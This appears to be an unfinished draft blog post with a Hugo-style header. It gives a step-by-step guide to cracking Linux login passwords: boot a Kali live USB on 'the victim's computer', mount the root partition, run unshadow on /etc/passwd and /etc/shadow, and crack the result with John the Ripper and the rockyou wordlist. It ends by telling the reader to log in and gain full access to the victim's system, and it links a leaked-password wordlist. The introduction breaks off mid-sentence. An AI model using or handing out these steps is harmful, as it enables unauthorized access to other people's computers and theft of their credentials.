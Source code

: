 ```yaml
---
title: "How to crack almost any OS password "
date: 2023-01-16T02:33:48+05:30
draft: true
description: "use john-the-ripper to actually crack the login passwords of almost any computer"
tags: [kali, cybersecurity]
---
```


## Introduction

Most people think that if I


https://github.com/ohmybahgosh/RockYou2021.txt

# Your computer is not safe
description: How to hack the password of 70% linux machines

## Overview
- boot into the system using live usb
- create a hash of etc password and etc shadow
- crack it using tools like john the ripper

## Steps
1. Create a live USB of Kali Linux
2. Boot into this usb from the victim's computer
3. mount the root partition under /mnt

```bash
lsblk
mount /dev/sda2 /mnt 
```
4. Navigate to etc and create hash out of shadow and password file using the unshadow util. Save this in the home directory 
In linux, the passwords of all users are stored as a hash in a /etc/shadow file. The corresponding names can be taken from /etc/password file
```bash
sudo unshadow /etc/passwd /etc/shadow > ~/shadowhash
```
5. Crack this using tools like johntheripper. Pass in a wordlist if the password is complex
```bash
john --format=crypt shadowhash
# or
john shadowhash --wordlist=/usr/share/wordlists/rockyou.txt
```

This should give you the password in plain text format for the victim's OS in 70% + cases.

Reboot with the victim's OS and Login with this password to gain full access to the victim's OS.


Note: This article focuses only on Linux machines. However, keep in mind that similar thing can be used for Windows systems as well.

The End
